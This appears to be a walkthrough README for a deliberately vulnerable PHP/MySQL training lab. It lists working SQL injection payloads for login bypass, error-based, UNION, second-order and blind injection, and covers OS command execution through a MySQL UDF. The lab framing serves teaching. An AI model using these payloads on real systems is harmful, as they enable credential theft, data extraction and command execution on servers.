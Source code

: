 # Walkthrough document

This document explains the different attacks that can be done on this setup. Use `?debug=true` to see the actual query being executed.

## Registration

Use the `register.php` to create users

## Login bypass attack

Bypassing login using boolean expressions

**Page:** `login1.php`

**Attack:** 
   
- `non-existent-user' OR 1=1 -- //`
- `bob' -- //` 

**Page:** `login2.php`

**Attack:** 

- `voldemort') -- //`

## Verbose SQL Error based Injection

Forcing error conditions to reveal and extract data

**Page:** `login1.php` 

**Attack:**

- `' or 1 in (select @@version) -- //`
- `' or 1=CAST((select group_concat(table_name) from information_schema.columns) AS SIGNED) -- //`
- `' or 1 in (select password from users where username = 'admin') -- //`


## Extracting data using UNION queries

Using a pre existing SQL select query to fetch additional data from the DB

**Page:** `searchproducts.php` 

**Attack:**

- `' order by 5 -- //`
- `' union select 1,2,3,4,5 -- //`
- `' union select null, null, database(), user(), @@version -- //`
- `' union select null, table_name, column_name, table_schema, null from information_schema.columns -- //`
- `' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //`
- `' union select null, id, username, password, fname from users -- //`

## Second order SQL injection

User input is stored and reused as is in a different function that has no protection

**Page:** `secondorder_register.php`

**Attack:**

```
- ' or 1 in (select @@version) -- //
- ' or 1 in (select password from users where username='admin') -- //
- ' or 1 in (select convert(password,unsigned) from users where username='admin') -- //
- navigate to secondorder_changepass.php
```

## Blind SQL injection

**Page:** `blindsqli.php`

**Attack:**

- `?user=1' and 1=1 -- //`
- `?user=admin' and substring((select table_name from information_schema.columns where column_name = 'password' LIMIT 1),1,1)>'a' -- //` 
- `?user=1' union select 1,2,3,4, if (substring(username,1,1) > 'd', benchmark(100000000, encode('txt','secret')),null) from users where id=1 -- //` 

## OS interaction

**Page:** `os_sqli.php`

**Attack:** 

- Given that we have mounted the `./udf` folder to `/usr/lib/mysql/plugin`, the `lib_mysqludf_sys.so` inside the `./udf` is available to the MySQL instance
- UDF obtained from `https://github.com/sqlmapproject/udfhack/blob/35abeedc6c590d2fc666a64b57aad9cf7944ec7a/linux/lib_mysqludf_sys/lib_mysqludf_sys.so`
- Use the ability to perform stacked queries in `os_sqli.php` to create a UDF function from the `lib_mysqludf_sys.so` library.
- `os_sqli.php?user=qqqq'; create function sys_eval returns string soname 'lib_mysqludf_sys.so';`
- `os_sqli.php?user=qqqq' union select 1,sys_eval('id'),3,4,5 -- //`
- To drop the function and redo the exercise run `os_sqli.php?user=qqqq';drop function sys_eval;`
- As the MySQL instance is running in a separate container than the web application, the `INTO OUTFILE` way of writing a php shell to disk will not work as the shell will be written inside the MySQL container can cannot be accessed from the web application.
